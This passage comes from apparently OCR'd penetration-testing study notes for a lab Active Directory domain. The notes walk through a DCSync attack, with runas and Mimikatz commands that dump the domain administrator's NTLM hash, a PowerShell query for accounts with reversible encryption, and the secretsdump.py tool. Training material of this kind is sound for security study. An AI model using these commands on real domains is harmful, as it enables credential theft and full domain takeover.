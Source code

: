 3. **Output Files**:
   - `.ntds`: NTLM hashes.
   - `.ntds.kerberos`: Kerberos keys.
   - `.ntds.cleartext`: Cleartext passwords (if reversible encryption enabled).



### **Using Mimikatz (Windows Host)**

#### **Step 1: Run PowerShell as the DCSync Privileged User**
1. Use the **runas.exe** command to start a session as the user with DCSync privileges:
   ```cmd
   runas /netonly /user:INLANEFREIGHT\adunn powershell
   ```
2. Enter the password for `INLANEFREIGHT\adunn` when prompted.

#### **Step 2: Perform the Attack in the New Session**
1. Launch Mimikatz:
   ```powershell
   .\mimikatz.exe
   ```
2. Elevate privileges in Mimikatz:
   ```mimikatz
   privilege::debug
   ```
3. Execute the DCSync attack:
   ```mimikatz
   lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
   ```
4. **Example Output**:
   - NTLM Hash: `88ad09182de639ccc6579eb0849751cf`
   - Supplemental credentials like Kerberos keys.



## **Special Cases: Reversible Encryption**
- **Reversible encryption** stores passwords in RC4-encrypted form.
- Accounts with reversible encryption enabled can be enumerated:
  ```powershell
  Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
  ```
- Example Account:
  - `proxyagent` with `ENCRYPTED_TEXT_PWD_ALLOWED`.
- The password can be decrypted using tools like `secretsdump.py`.

---

# Privileged Access 

## **Overview**
In Windows domains, once an initial foothold is gained, the next steps involve **lateral movement** or **privilege escalation** to compromise the domain or achieve assessment objectives. This often requires identifying and exploiting remote access mechanisms or administrative privileges. Key strategies include:
